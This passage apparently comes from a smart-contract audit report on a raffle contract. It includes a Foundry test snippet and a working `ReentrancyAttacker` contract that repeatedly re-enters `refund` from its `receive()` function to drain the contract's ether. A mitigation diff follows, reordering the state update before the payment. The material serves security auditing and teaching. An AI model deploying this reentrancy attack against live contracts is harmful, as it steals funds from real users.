```solidity
    console.log("ending attacker contract balance: ", address(attackerContract).balance);
    console.log("ending contract balance: ", address(puppyRaffle).balance);

}
```

Then, create an additional contract inside `PuppyRaffleTest.t.sol` as follows:

```solidity
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
    
    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
}
```

### Recommended Mitigation

To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

-   payable(msg.sender).sendValue(entranceFee);
    players[playerIndex] = address(0);
-
    emit RaffleRefunded(playerAddress);
+   payable(msg.sender).sendValue(entranceFee);
}
```
